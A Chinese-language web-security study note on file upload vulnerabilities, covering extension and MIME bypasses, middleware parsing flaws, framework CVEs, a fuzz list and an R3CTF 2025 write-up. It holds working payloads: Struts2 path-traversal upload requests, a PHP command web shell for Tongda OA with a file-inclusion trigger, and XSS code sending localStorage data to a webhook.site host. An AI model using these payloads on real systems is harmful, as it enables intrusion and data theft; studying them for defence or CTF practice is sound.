

# 📤 文件上传

主要参考：

<https://xz.aliyun.com/news/324>

<https://xz.aliyun.com/news/6296>

<https://xz.aliyun.com/news/12994>

<https://www.freebuf.com/articles/web/188464.html>

<https://websec.readthedocs.io/zh/latest/vuln/fileupload.html>

## **类型检测绕过**

### Content-Type 绕过

常见的 Content-Type（文本、图片）有哪些？

常见的mime有：

* **text**：plain, html, css, javascript, xml, csv
* **application**：json, xml, javascript, octet-stream, pdf, zip, x-php, x-httpd-php
* **image**：jpeg, jpg, png, gif, bmp, webp, svg+xml, tiff, ico

### **Magic检测绕过**

常见文件类型的文件头有哪些？

* 图片文件头：
  * JPEG: FF D8 FF
  * PNG: 89 50 4E 47 0D 0A 1A 0A
  * GIF87a: 47 49 46 38 37 61
  * GIF89a: 47 49 46 38 39 61
  * BMP: 42 4D
  * TIFF: 49 49 2A 00 或 4D 4D 00 2A
  * ICO: 00 00 01 00


* 压缩文件头：
  * ZIP: 50 4B 03 04 或 50 4B 05 06
  * RAR: 52 61 72 21 1A 07 00 或 52 61 72 21 1A 07 01 00
  * 7Z: 37 7A BC AF 27 1C
  * TAR: 75 73 74 61 72


* 文档文件头：
  * PDF: 25 50 44 46
  * DOC: D0 CF 11 E0 A1 B1 1A E1
  * DOCX: 50 4B 03 04  
  * RTF: 7B 5C 72 74 66 31


* 可执行文件头：
  * PE: 4D 5A
  * ELF: 7F 45 4C 46
  * CLASS: CA FE BA BE

### 后缀绕过

.php/.jsp/.asp 被阻止怎么办？（还有哪些后缀也是有效的 php/jsp/asp，务必列举完全）

php: .php / .php2 / … / .php7 / .phtml / .pht / .phps / .phar / .inc / .pgif / .pjpeg

jsp: .jsp / .jspa / .jspx / .jsw / .jsv / .jspf / .jtml

asp: .asp / .aspx / .asa / .asax / .ascx / .ashx / .asmx / .cer / .rem / .soap  / .master / .cs / .vb / .axd 

apache: 

### 特殊命名绕过

有时候后端用"endWith"函数来检查后缀名，是不是可以在文件名后面增加一些东西绕过？

Windows：文件名后面加上 `::$DATA`  / `.` / `空格` / `{%80-%99}的字符` / `<` / `>`

`;`  `:`  `/`  `%00` 后面加白名单里的后缀名

### **Apache服务器解析绕过**

有哪些方法如何把 .txt 文件解析成 php 来运行？


1.  在同目录下上传.htaccess文件，内容：`AddType application/x-httpd-php .txt`

   或`AddHandler php-script .txt`或

   `RewriteEngine On `

   `RewriteRule .txt$ - [H=application/x-httpd-php]`
2. 修改Apache配置文件

### 压缩包上传的符号链接和路径穿越问题

如何构造恶意的压缩包？

如果服务器在接收用户上传的压缩包后进行解压，解压时使用了不安全的函数来处理，可能导致符号链接和路径穿越问题。

路径穿越：压缩包中的文件以../../../../../etc/passwd命名，解压时直接拼接目标解压目录和文件名，导致覆写/etc/passwd文件

符号链接：压缩包中的文件包含指向/etc/passwd的符号链接，解压完成后，读写这个符号链接，从而操作目标文件/etc/passwd。构造包含符号链接的压缩包：

```bash
 ln -s /etc/passwd evil_link
 zip -y symlink.zip evil_link
```

不安全的解压函数：参考 <https://xz.aliyun.com/news/16525>

## 中间件文件上传相关的解析漏洞

给出CVE编号、漏洞原理、利用方式

### IIS


1. IIS 6.0 目录解析漏洞：在IIS 6.0环境下，当一个目录（文件夹）的名称以 `.asp` 或 `.asa` 等可执行脚本扩展名结尾时，服务器会把该目录下的所有文件，无论其本身扩展名是什么，都当作ASP脚本来解析执行。例如shell.asp/test.jpg
2. IIS 6.0 文件名解析漏洞：IIS 6.0 在解析文件名时，会将`;`之后的部分视为路径参数，并予以忽略。例如shell.asp;.jpg
3. IIS 7.0 / 7.5 FastCGI 解析漏洞：PHP的配置文件 `php.ini` 中默认设置 `cgi.fix_pathinfo=1` 。当该选项开启时，如果PHP处理器收到了一个URL是 `http://example.com/image.jpg/shell.php`，它会首先检查 `shell.php` 是否存在。如果不存在，它会向前回溯路径，找到存在的 `image.jpg` 文件，然后将 `**image.jpg **`当作PHP脚本来执行，并将 `/shell.php` 作为`PATH_INFO`环境变量。

### Tomcat

#### HTTP PUT 漏洞 (**CVE-2017-12617)**

> 参考链接：<https://versa-networks.com/blog/apache-tomcat-remote-code-execution-vulnerability-cve-2017-12617/#:\~:text=The%20vulnerability%20only%20affected%20systems,executed%20by%20requesting%20the%20file>

当 Tomcat 的默认 Servlet（或启用 WebDAV）允许写入时，攻击者可以利用 HTTP PUT 上传 JSP 等脚本文件并执行。此漏洞影响 Tomcat 7.0.0–7.0.81、8.0.0.RC1–8.0.46、8.5.0–8.5.22、9.0.0.M1–9.0.0。

**原理**： 如果启用了 HTTP PUT 方法且默认 Servlet (readonly=false) 可写，则上传的文件会被存放在 web 根目录下。由于未对上传内容进行安全校验，恶意的 JSP 文件会被直接部署。

**利用方式**： 攻击者发送特制的 HTTP PUT 请求，将包含恶意 JSP 代码的文件上传到服务器。例如利用 PoC 漏洞程序向 /examples/servlets 目录 PUT 一个 JSP 脚本，之后通过浏览器访问该脚本地址即可触发执行。

#### 默认 Servlet 大小写敏感性绕过导致 RCE (CVE-2024-50379)

> 参考链接：
>
> <https://tomcat.apache.org/security-11.html#:\~:text=Important%3A%20Remote%20Code%20Execution%20via,50379>

在 Windows 等不区分大小写的文件系统上，如果开启了默认 Servlet 写入（`readonly=false`），并在高并发下同时对同一文件进行读取和上传操作，Tomcat 可能未正确校验文件名大小写。一旦将上传文件误处理为 JSP，就可能造成远程代码执行。

**利用方式：** 攻击者先上传一个大小写形式不同的文件，并以 JSP 名称并发请求，同步触发读取和上传，迫使服务器以 JSP 方式处理恶意代码。例如在 Windows 文件系统上，上传 `test.jsp` 的同时快速请求同名文件，导致原有或新上传的 JSP 代码执行。

#### Tomcat Partial PUT 漏洞 (CVE-2025-24813)

Tomcat 对 partial PUT 请求的处理存在设计缺陷。它使用用户提供的文件名创建临时文件名（以"."替换路径分隔符），攻击者在以下条件满足时查看或注入服务器文件：默认 Servlet 可写、启用了 partial PUT、保留了源文件的路径层级、并且攻击者知道要覆写的敏感文件名。如果在满足所有条件的情况下启用了文件系统会话持久化，还可能导致远程代码执行。

**原理：** 攻击者通过 HTTP partial PUT（分块上传）向受影响的 URL 上传文件，因为 Tomcat 将路径中的"/"替换为"."，可能导致文件存储到错误的位置并覆盖敏感文件，尤其是在文件会话持久化环境下可触发反序列化 RCE。

### Apache

#### **换行符解析漏洞 (CVE-2017-15715)**

> 参考链接：<https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2017-15715/README.zh-cn.md>

在 2.4.0 到 2.4.29 版本中存在一个解析漏洞，当文件名以 `1.php\x0A` 结尾时，该文件会被按照 PHP 文件进行解析，这使得攻击者可以绕过服务器的一些安全策略。

典型场景为下面的 `.htaccess` 配置（上述版本的默认配置是类似的）：

```xml
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

`<FilesMatch>` 指令对 `$` 结尾的正则表达式可以匹配文件名中的换行符。攻击者可上传文件名以换行符结尾的恶意文件，例如 `shell.php%0A`（即在 .php 后添加换行），使得配置中用 `<FilesMatch ".*.php$">` 等限制失效，从而绕过后缀过滤被当作 PHP 脚本执行 。

#### 服务器端包含（.shtml）

如果web服务器开启了**服务器端包含功能，就可以通过上传.shtml文件来执行命令或文件包含。**

apache中，

```javascript
Options +Includes
AddType text/html .shtml
AddOutputFilter INCLUDES .shtml
```

或者：`text/x-server-parsed-html` 或 `text/x-server-parsed-html3`类型的文件具有服务端包含功能。

如果选项中有`Includes`，则可以文件中写入`<!--#exec cmd="id" -->`可以执行命令；如果选项是`IncludesNOEXEC`，则只能 `<!--#include file="1.txt"-->` 包含别的文本MIME类型的文件，不能执行命令。

参考：<https://httpd.apache.org/docs/current/mod/mod_include.html#element.include>

### Nginx

#### 请求 URI 空格绕过漏洞 (**CVE-2013-4547**)

> 参考链接：<https://www.thesmartscanner.com/vulnerability-list/nginx-restriction-bypass-via-space-character-in-uri#:\~:text=A%20vulnerability%20in%20Nginx%20allows,request%20URI%20may%20be%20bypassed>

在 Nginx 0.8.41–1.4.3 和部分 1.5.x 版本中，URI 中未转义的空格会被错误处理，攻击者可以借此绕过安全限制。具体来说，如果在 URI 中加入空格并紧跟某些字符，安全检查可能会被跳过。

**原理：** Nginx 解析请求时，对于空格处理不当（未正确拒绝或转义），导致一些基于 URI 的过滤规则失效。利用此缺陷，可以在路径中插入空格，使得后续内容被解释为合法文件名。

**利用方式：** 攻击者发送包含空格的恶意请求，如 `GET /upload/hello .php`（路径名后有空格再跟 `.php`），Nginx 会错误解析为执行 PHP 文件，从而绕过上传后缀检查。

### Weblogic

#### WebLogic XMLDecoder 反序列化漏洞 (**CVE-2019-2725**)

> 参考链接：<https://www.oracle.com/security-alerts/alert-cve-2019-2725.html#:\~:text=This%20Security%20Alert%20addresses%20CVE,for%20a%20username%20and%20password>

Oracle WebLogic Server（Fusion Middleware）存在反序列化漏洞，无需认证即可 RCE。攻击者可通过向 WebLogic 的 Web 服务（例如 `/wls-wsat/CoordinatorPortType` 或类似端点）提交包含恶意 Java 对象序列化数据的 SOAP/XML 请求，触发 `XMLDecoder` 反序列化执行任意代码。

**利用方式：** 攻击者无需登录，即可向受影响的 WebLogic 服务端点发送恶意的 SOAP 请求。该请求包含精心构造的 Java 序列化数据（通常是 `java.beans.XMLDecoder` 载荷），服务器在解析后执行其中代码实现远程命令执行。

#### WebLogic Coherence 序列化漏洞 (**CVE-2020-2883**)

> 参考链接：<https://es-la.tenable.com/blog/cve-2020-2883-oracle-weblogic-deserialization-vulnerability-exploited-in-the-wild#:\~:text=CVE,attacker%20gaining%20remote%20code%20execution>

该漏洞影响使用 Oracle Coherence 内存数据网格的 WebLogic Server。Coherence 在处理网络协议（T3/IIOP）传输的序列化数据时存在反序列化缺陷。

**原理：** 攻击者向 WebLogic 的 T3（默认端口 7001）发送精心构造的序列化请求。由于 Coherence 组件在解压缩序列化数据时未做安全校验，恶意序列化对象会被反序列化并执行。成功利用可导致远程代码执行。

**利用方式：** 未经认证的远程攻击者直接向 WebLogic 服务器的 T3 端口发送恶意 Coherence 请求负载（包含反序列化 gadget），触发服务端反序列化漏洞并执行任意代码。

## 应用框架任意文件上传漏洞

给出CVE编号、漏洞原理、利用方式

### fckeditor

### UEditor

#### XSS: CVE-2024-7343

**影响版本：**1.4.2

**原理：**在 `action_crawler.php` 处理远程图片时未检测错误信息，直接将输入的 `source` 参数返回，并在没有过滤的情况下插入 html 导致 XSS

**参考：**<https://github.com/fex-team/ueditor/blob/v1.4.2/php/action_crawler.php#L27>

**利用方式：**

* `<http://your-ip/ueditor142/php/controller.php?action=catchimage&source\[\]=%22%3E%3Csvg%20onload=alert(1)%3E>`
* 参考 <https://github.com/Hebing123/cve/issues/63>

#### XSS: **CVE-2017-14744**

**影响版本：**< 1.4.3.3

**原理：**没过滤 iframe 的 src 属性导致 xss

**参考：**<https://web.archive.org/web/20201220102540/https://www.yuag.org/2017/09/19/ueditor%E5%82%A8%E5%AD%98%E5%9E%8Bxss%E6%BC%8F%E6%B4%9E/>

### Flowise

#### **CVE-2025-26319**

对于Flowise 2.2.6 及以前的版本，`/api/v1/attachments`存在任意文件上传漏洞。

**原理：**

flowise中的 `WHITELIST_URLS` 表示无需身份验证即可访问的API。

```typescript
// @ /packages/server/src/index.ts
const isWhitelisted = whitelistURLs.some((url) => req.path.startsWith(url))
if (isWhitelisted) {
    next()
} else if (req.headers['x-request-from'] === 'internal') {
    basicAuthMiddleware(req, res, next)
} else {
    const isKeyValidated = await validateAPIKey(req)
    if (!isKeyValidated) {
        return res.status(401).json({ error: 'Unauthorized Access' })
    }
    next()
}
```

白名单中包括 `/api/v1/attachments` ，这个API会调用 `createFileAttachment` 函数处理上传文件，并只需要 `chatflowid`和`chatid`参数。处理过程中会调用`addArrayFilesToStorage` 将文件添加到存储中，`...paths` 会传入 `chatflowid`和`chatid`，可以被攻击者控制，导致未经身份验证的任意文件上传。

```typescript
// @\packages\server\src\utils\createAttachment.ts
export const createFileAttachment = async (req: Request) => {
    ...
    const storagePath = await addArrayFilesToStorage(file.mimetype, fileBuffer, file.originalname, fileNames, chatflowid, chatId)
//----------------------------------------------------------------
// @ packages\components\src\storageUtils.ts
export const addArrayFilesToStorage = async (mime: string, bf: Buffer, fileName: string, fileNames: string[], ...paths: string[]) => {
    const storageType = getStorageType()
    const sanitizedFilename = _sanitizeFilename(fileName)
    if (storageType === 's3') {
      // ...
    } else {
        const dir = path.join(getStoragePath(), ...paths) // PATH TRAVERSAL.
        if (!fs.existsSync(dir)) {
            fs.mkdirSync(dir, { recursive: true })
        }
        const filePath = path.join(dir, sanitizedFilename)
        fs.writeFileSync(filePath, bf)
        fileNames.push(sanitizedFilename)
        return 'FILE-STORAGE::' + JSON.stringify(fileNames)
    }
}
```

**利用方式：**

通过构造`chatflowid`和`chatid`（如 `/api/v1/attachments/..%2f..%2f../test`），可以控制上传文件的位置。

### Struts2

#### **CVE-2023-50164**

对于Struts 2.5.33或Struts 6.3.0.2之前的版本，利用大小写敏感性通过操控上传文件的参数实现路径穿越。

**原理：**

Struts通过`ParametersInterceptor`进行参数拦截，使用OGNL表达式将HTTP中的参数绑定到Action的属性，其中用于赋值的`acceptableParameters`是`ActionContext`的key为`com.opensymphony.xwork2.ActionContext.parameters`的值，即`HttpParameters`。而在文件上传时会有`FileUploadInterceptor`在`ParametersInterceptor`之前处理文件上传的请求。

```java
Enumeration fileParameterNames = multiWrapper.getFileParameterNames();
while (fileParameterNames != null && fileParameterNames.hasMoreElements()) {
  String inputName = (String) fileParameterNames.nextElement();
  String[] fileName = multiWrapper.getFileNames(inputName);
  ...
  String fileNameName = inputName + "FileName";
  newParams.put(fileNameName, new Parameter.File(fileNameName, acceptedFileNames.toArray(new String[acceptedFileNames.size()])));
  // 将参数保存到HttpParameters中
  ac.getParameters().appendAll(newParams);
```

`acceptableParameters`是TreeMap类型，其大小写敏感，且会根据Key的ASCII值的大小升序排序，因此如果将请求表单中的name（例如Upload）大写，同时传入一个小写的`uploadFileName` 参数，使得`HttpParameters`同时存在`uploadFileName`和`UploadFileName`。而在参数绑定过程中属性名会被`capitalizeBeanPropertyName`处理，即abc-->Abc，因此`uploadFileName`会被赋值两次，最终的值是小写的参数。

**利用方式：**

```java
POST /index.action?fileFileName=../test.jsp HTTP/1.1
Host: 10.180.99.132:8083
Content-Length: 219
Cache-Control: max-age=0
Origin: http://10.180.99.132:8083
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfub1wmPAAJalxkQM
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.180.99.132:8083/index.action
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=A933E378FA2FAB88119CAB64076DA55E
Connection: close

------WebKitFormBoundaryfub1wmPAAJalxkQM
Content-Disposition: form-data; name="File"; filename="test.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryfub1wmPAAJalxkQM--
```

或

```java
POST /index.action HTTP/1.1
Host: 10.180.99.132:8083
Content-Length: 329
Cache-Control: max-age=0
Origin: http://10.180.99.132:8083
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfub1wmPAAJalxkQM
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.180.99.132:8083/index.action
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=A933E378FA2FAB88119CAB64076DA55E
Connection: close

------WebKitFormBoundaryfub1wmPAAJalxkQM
Content-Disposition: form-data; name="File"; filename="test.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryfub1wmPAAJalxkQM
Content-Disposition: form-data; name="fileFileName"

../test.jsp
------WebKitFormBoundaryfub1wmPAAJalxkQM--
```

#### CVE-2024-53677

对于Struts 6.4.0之前的版本，通过Ognl参数绑定过程对文件名做修改实现路径穿越。

**原理：**

在 Struts2 中，所有参数在传递时，参数的键名都会进行 OGNL 表达式的计算。Struts2在执行请求时会创建一个ValueStack（值栈）用于访问Action属性，通常将当前的Action对象存入值栈顶层中。在Ognl表达式中可以通过\[0\]、\[1\]等来指定从栈的第几层开始执行表达式。\[0\]表示从栈顶开始，\[1\]表示从栈的第二层开始。因此可以通过`[0].top`直接获取到栈顶的`Action`对象并修改其中的参数。为了绕过过滤，可以利用"\[0\].top"等价于"top"这个条件。

**利用方式：**

```java
POST /index.action HTTP/1.1
Host: 10.180.99.132:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary2894049506aa41cef56ce469f9d1a38
Content-Length: 377
Origin: http://10.180.99.132:8082
Connection: close
Referer: http://10.180.99.132:8082/index.action
Cookie: JSESSIONID=39CBC7F434AB6CA694685D5051AE3D79
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary2894049506aa41cef56ce469f9d1a38
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>

------geckoformboundary2894049506aa41cef56ce469f9d1a38
Content-Disposition: form-data; name="top.fileFileName"

../test.jsp
------geckoformboundary2894049506aa41cef56ce469f9d1a38--
```


### 各类CMS

cms 太多了，不用整理，基本上都是 php 框架

### 通达oa

无cve，任意文件上传+文件包含 rce

任意文件上传位置：/ispirit/im/upload.php

生成**shell.jpg：**

```javascript
<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

文件包含位置：/ispirit/interface/gateway.php

```javascript
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=8phdj361a5d498n03tnqd7c104; KEY_RANDOMDATA=17743;PHPSESSID=8phdj361a5d498n03tnqd7c104;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
 
json={"url":"/general/../../attach/im/2006/209898972.shell.jpg"}&cmd=whoami
```

 

## Fuzz列表

```none
1. filename在content-type下面
2. .asp{80-90}
3. NTFS ADS
4. .asp...
5. boundary不一致
6. iis6分号截断asp.asp;asp.jpg
7. apache解析漏洞php.php.ddd
8. boundary和content-disposition中间插入换行
9. hello.php:a.jpg然后hello.<<<
10. filename=php.php
11. filename="a.txt";filename="a.php"
12. name=\n"file";filename="a.php"
13. content-disposition:\n
14. .htaccess文件
15. a.jpg.\nphp
16. 去掉content-disposition的form-data字段
17. php<5.3 单双引号截断特性
18. 删掉content-disposition: form-data;
19. content-disposition\00:
20. {char}+content-disposition
21. head头的content-type: tab
22. head头的content-type: multipart/form-DATA
23. filename后缀改为大写
24. head头的Content-Type: multipart/form-data;\n
25. .asp空格
26. .asp0x00.jpg截断
27. 双boundary
28. file\nname="php.php"
29. head头content-type空格:
30. form-data字段与name字段交换位置
```


## 例题

### (Vqs147) R3CTF 2025 **r3note**

 文件上传+XSS

目标是XSS获得bot的localStorage中的flag，正常发笔记和分享的话其中的内容都会有HTML转义。

应用提供一个上传图片的API，其中对文件类型的检查是：

```clike
func UploadImage(c *gin.Context, db *gorm.DB, cfg *config.Config) {
	userID := c.GetString("user_id")
	file, header, err := c.Request.FormFile("file")
    ......
	ext := filepath.Ext(header.Filename)
	if ext == "" || ext == ".js" || ext == ".css" || ext == ".html" {
		c.JSON(http.StatusBadRequest, ErrorResponse{Error: "Invalid file type"})
		return
	}
    ......
```

只是用黑名单检查了文件的后缀名，如果通过检查，文件会被上传，对应URI是`/files/upload/{user-uuid}/{file-uuid}.{文件后缀名}`。

可以直接通过/files路由访问上传的文件：

```go
func RegisterStaticRoutes(r *gin.Engine, db *gorm.DB, cfg *config.Config) {
	r.Static("/files", cfg.Static.Path)

	r.NoRoute(func(c *gin.Context) {
		c.File(cfg.Static.Index)
	})
}
```

有Nginx限制：

```none
# no direct access to the upload directory
location /files/upload/ {
    deny all;
}
```

但这个限制可以通过`/files/..%2fupload`绕过。

这个URI在绕过Nginx的ACL后，在r.Static中会先提取出/files后面的部分，对其进行清洗（去除../），然后再和/files拼接后用os读取文件，因此最终等价于/files/upload/…

另一种绕过ACL的方法：

nginx配置中还有一条：

```none
location ~ \.(css|js)$ {...
```

里面没有限制访问，而且正则匹配优先级高于前缀匹配，只要满足这条规则就可以绕过ACL，将上传的文件后缀名改为**.js\\n**即可符合（js文件和html文件都用这个后缀名）

此时需要手动构建multipart/form-data：

```python
url = f'{target}/api/image/upload'
headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryAAA'
}
filename = 'aaa.js\n'
content = 'location.href = "https://webhook.site/7171f1c0-acc7-450f-a551-434fadcbaeec/?data=" + localStorage.getItem("flag")'
req = [
    '------WebKitFormBoundaryAAA',
    f'Content-Disposition: form-data; name="file"; filename*=utf-8\'cn\'{quote_plus(filename)}',
    'Content-Type: image/png',
    '',
    content,
    f'------WebKitFormBoundaryAAA--'
]
r = s.post(url, headers=headers, data='\r\n'.join(req).encode('utf-8') + b'\r\n')
```


再看XSS的部分，有CSP：`"default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';"`

所以要先上传一个JavaScript文件，其中用`window.location`来泄露flag：

```none
const flag = localStorage.getItem('flag');
window.location = `https://webhook.site/523daa9a-97a0-49a9-8366-74f8b30dcd23/?data=${flag}`;
```

然后获取js文件UUID和用户UUID，再写一个HTML文件包含这个js文件：

```none
<script src="/files/..%2fupload/965dd803-2a69-4196-af58-9032fda51c6f/2ac5a21d-6d5a-4ac0-90ec-954138cbd8f3.Js"></script>
```

这里的两个文件的后缀名选取任意不在黑名单里的后缀名都可以，因为服务端没设置`X-Content-Type-Options: nosniff`这个响应头，浏览器会对MIME类型进行嗅探。

（加了这个响应头也没什么用，文件后缀名设置成.Js服务端响应MIME类型是text/javascript，文件后缀名设置成.Html服务端响应MIME类型是text/html）

最后给bot发送token，bot会访问：

```none
await page.goto(`http://127.0.0.1:8080/share/${token}`, { timeout: 5000 });
```

发送token为../../../files/..%2fupload/965dd803-2a69-4196-af58-9032fda51c6f/6b361954-ed2f-4ba1-892f-bb8530449530.Html，指向之前上传的HTML文件，触发XSS。